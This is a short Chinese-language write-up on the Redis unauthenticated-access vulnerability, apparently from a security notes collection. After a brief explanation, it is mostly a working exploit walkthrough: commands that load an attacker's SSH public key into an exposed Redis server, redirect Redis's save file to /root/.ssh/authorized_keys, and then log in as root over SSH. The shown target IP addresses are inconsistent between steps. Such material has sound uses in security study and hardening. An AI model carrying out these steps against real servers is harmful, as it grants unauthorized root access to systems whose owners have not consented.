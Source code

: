 Redis 未授权访问漏洞

如果将 Redis 绑定在 0.0.0.0:6379，会将Redis服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问Redis以及读取Redis的数据。
攻击者在未授权访问Redis的情况下可以利用Redis的相关方法，如果运行 redis 的用户是 root 用户，攻击者可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以直接登录目标服务器。

### 利用步骤

1. 在攻击方生成一对 ssh key (如果已经生成过则可跳过此步骤)

 ```
  $ ssh-keygen -t rsa
 ```
 
 默认情况下，生成后在用户的家目录下的 .ssh 目录下
 
2. 将生成的公钥的值写入目标服务器

 ```
 $ (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/foo.txt
 $ cat /tmp/foo.txt | redis-cli -h 192.168.1.100 -p 6379 -x set crackit
 ```
 
 > 加上 `\n\n` 是为了不破坏 ssh public key
 > 
 > crackit 是设置的 key，可随意指定

3. 连接目标

 ```
 $ redis-cli -h 172.17.0.2 -p 6379
192.168.1.100:6379> config set dir /root/.ssh/
OK
192.168.1.100:6379> config get dir
1) "dir"
2) "/root/.ssh"
192.168.1.100:6379> config set dbfilename "authorized_keys"
OK
192.168.1.100:6379> save
OK
 ```
 
 将目录设置为 /root/.ssh/ 目录后，再将备份文件名设置为 `authorized_keys`，通过 save 指令即可写入文件。

4. 通过 ssh 连接目标

 ```
 $ ssh root@172.17.0.2 -i ~/.ssh/id_rsa
 ```
 > 默认会使用 `id_rsa` 如果改过文件名则可以用 -i 参数来指定。